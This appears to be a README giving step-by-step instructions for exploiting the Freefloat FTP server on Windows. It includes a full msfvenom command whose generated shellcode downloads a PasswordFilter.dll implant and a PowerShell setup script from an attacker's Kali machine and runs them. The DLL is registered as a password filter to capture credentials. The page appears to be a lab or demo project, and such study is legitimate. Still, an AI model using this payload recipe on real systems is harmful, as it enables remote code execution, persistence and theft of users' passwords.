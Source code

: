 Steps to recreate
1. Obtain Freefloat FTP - download and run on a windows host
2. Download cmd.py - the exploit script that will complete the exploit
3. Download PasswordFilter.dll - the compiled implant to be installed via the registry
4. Download setup.ps1 - the powershell script that adds passwordfilter.dll to the registry
5. Run `python3 -m http.server 80` to run a local python listener to use when wget'ing files
6. Create new shell code for cmd.py 
Example: msfvenom -p windows/exec -a x86 CMD="ps.exe wget <kali vm ip>/PasswordFilter.dll -O C:\Windows\sysnative\PasswordFilter.dll; wget <kali vm ip>/setup.ps1 -O C:\temp\setup.ps1; ps.exe C:\temp\setup.ps1" -b "\x00\x0a\x0d" -f c
7. Paste the new shell code into cmd.py ensuring proper indenting and appending b before each " " on each line
8. Run cmd.py

Video Demo:
https://youtu.be/TdsIIfucZw0